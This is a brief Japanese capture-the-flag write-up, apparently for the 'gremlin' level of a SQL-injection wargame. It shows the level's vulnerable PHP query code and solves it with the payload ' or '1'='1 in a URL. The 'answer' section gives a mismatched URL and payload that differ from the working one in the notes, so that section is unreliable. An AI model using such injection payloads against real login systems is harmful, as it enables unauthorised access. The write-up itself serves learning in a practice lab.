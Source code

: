 # gremlin

## answer

```
https://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=admin&pw=) or '1'='1
```

## problem

```
query : select id from prob_gremlin where id='' and pw=''

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

## memo


```
https://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=12&pw=aaaa
```

みたいに打ち込んであげると、「query : select id from prob_gremlin where id='12' and pw='aaaa'」という文字が画面に現れる。

```
返り値 = preg_match(/正規表現パターン/,検索対象の文字列,[配列],[動作フラグ],[検索開始位置])
```

コードを読んでいくとid、pwパラメータに「prog」or「_」or「\.」or「\(\)」、これらが```preg_match```（phpの正規表現マッチングを行う関数）によってヒットしたとき、exit。```preg_match``` は ```i``` を入れることによって大文字小文字を区別せずに検索できる。

```mysql_fetch_array``` 関数は、取得した行に対応する配列を返す関数である。```mysql_query``` 関数は、MySQLクエリを送信する関数である。


目的としては```solve("gremlin")```関数を実行させること。

queryに ```select id from prob_gremlin where id='1' and pw='a' or '1' = '1'``` とかが実行できたら良さそうかな〜なんて思いながら実行

```
https://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=1&pw=a' or '1'='1
```

## references

- [preg_match | php manual](https://www.php.net/manual/ja/function.preg-match.php)

- [mysql_fetch_array | php manual](https://www.php.net/manual/ja/function.mysql-fetch-array.php)

- [mysql_query | php manual](https://www.php.net/manual/ja/function.mysql-query.php)

- [highlight_file | php manual](https://www.php.net/manual/ja/function.highlight-file.php)